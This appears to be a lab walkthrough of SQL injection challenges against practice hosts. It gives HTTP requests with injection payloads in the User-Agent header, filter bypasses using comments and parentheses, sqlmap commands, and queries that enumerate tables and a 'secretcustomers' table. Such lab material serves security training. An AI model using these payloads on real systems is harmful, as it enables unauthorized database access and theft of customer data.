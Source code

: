 SQLMap Automation:
```
sqlmap -u 'http://1.sqli.labs/' -p user-agent --random-agent --banner
```

### SQLi 2
```bash
UNION and standard payloads like 1='1 are filterer.

PoC, False Blind:
GET / HTTP/1.1
Host: 2.sqli.labs
User-Agent: ' or 'elscustom'='elsFALSE


PoC, True Blind:
GET / HTTP/1.1
Host: 2.sqli.labs
User-Agent: ' or 'elscustom'='elscustom


# SQLMap Automation:
sqlmap -u 'http://2.sqli.labs/' -p user-agent --user-agent=elsagent --technique=B --banner
```

### SQLi 3
Spaces are filtered.

PoC:
```bash
GET / HTTP/1.1
Host: 3.sqli.labs
User-Agent: '/**/UNION/**/SELECT/**/@@version;#

# SQLMap Automation:
sqlmap -u 'http://3.sqli.labs/' -p user-agent --random-agent --technique=U --tamper=space2comment --suffix=';#' --union-char=els --banner
```

### SQLi 4
Comments non longer work.

PoC:

```bash
GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: 'UNION(select('PoC String'));#


# We cannot easily automate this task, as sqlmap should balance the parentesis.
# To exploit by hand you have to first find the tables in the current database:


GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: 'union(SELECT(group_concat(table_name))FROM(information_schema.columns)where(table_schema=database()));#

Then you can enumarate the columns:

GET / HTTP/1.1
Host: 4.sqli.labs
User-Agent: 'union(SELECT(group_concat(column_name))FROM(information_schema.columns)where(table_name='secretcustomers'));#
```